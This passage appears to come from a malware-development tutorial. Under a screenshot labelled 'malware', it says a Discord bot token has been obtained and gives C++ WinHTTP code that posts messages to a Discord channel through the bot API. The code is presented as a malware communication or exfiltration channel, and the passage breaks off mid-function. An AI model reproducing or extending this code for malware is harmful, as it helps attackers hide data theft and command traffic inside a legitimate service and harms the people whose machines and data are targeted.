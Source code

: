 ![malware](./images/127/2024-07-02_17-09.png){width="80%"}    

As you can see, we have obtained a token for the bot. So, according to the [documentation](https://discord.com/developers/docs/resources/channel#create-message), we need the following logic for sending messages:     

```cpp
#define DISCORD_BOT_TOKEN "your discord bot token" // replace with your actual bot token
#define DISCORD_CHANNEL_ID "your discord channel id" // replace with the channel ID where you want to send the message

// function to send a message to discord using the discord Bot API
int sendToDiscord(const char* message) {
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;
  HINTERNET hRequest = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, 
  WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
    fprintf(stderr, "WinHttpOpen. error: %d has occurred.\n", GetLastError());
    return 1;
  }

  hConnect = WinHttpConnect(hSession, L"discord.com", 
  INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (hConnect == NULL) {
    fprintf(stderr, "WinHttpConnect. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hSession);
    return 1;
  }

  hRequest = WinHttpOpenRequest(hConnect, L"POST", L"/api/v10/channels/" 
  DISCORD_CHANNEL_ID "/messages", NULL, WINHTTP_NO_REFERER, 
  WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);
  if (hRequest == NULL) {
    fprintf(stderr, "WinHttpOpenRequest. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
    return 1;
  }

  // set headers
  if (!WinHttpAddRequestHeaders(hRequest, L"Authorization: Bot " 
  DISCORD_BOT_TOKEN "\r\nContent-Type: application/json\r\n", -1, 
  WINHTTP_ADDREQ_FLAG_ADD)) {
    fprintf(stderr, "WinHttpAddRequestHeaders. error %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hRequest);
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
    return 1;
  }

  // construct JSON payload
  char json_body[1024];
```